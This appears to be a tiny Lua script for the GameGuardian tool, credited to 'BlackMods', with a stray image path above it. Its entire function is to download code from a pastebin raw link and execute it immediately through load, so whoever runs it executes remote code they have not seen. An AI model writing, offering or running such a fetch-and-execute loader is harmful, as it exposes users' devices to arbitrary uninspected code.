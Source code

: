 API = gg.makeRequest('  https://pastebin.com/raw/eG2yV4eb  ').content
--test
--By BlackMods
pcall(load(API))
